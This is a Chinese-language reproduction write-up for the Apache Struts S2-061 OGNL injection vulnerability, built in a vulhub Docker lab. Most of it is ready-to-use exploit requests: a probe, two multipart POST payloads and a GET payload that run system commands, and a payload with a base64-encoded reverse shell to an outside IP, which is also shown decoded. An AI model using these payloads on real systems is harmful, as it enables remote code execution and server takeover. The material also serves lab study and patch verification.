 # 0x00 软件介绍
struts2：面向java ee的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

EXP1（验证漏洞是否存在）：
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  
![image](./0.png)

对于命令执行，目前网上有2种利用方式

EXP2（第一种利用方式执行命令ls）：
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./1.png)

EXP3（第二种利用方式执行命令id）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./2.png)

EXP4（使用第一种利用方式反弹shell）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
![image](./4.png)  
成功反弹shell，如下图  
![image](./5.png)  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

EXP5（以get方式执行命令）：
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  
![image](./3.png)

# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
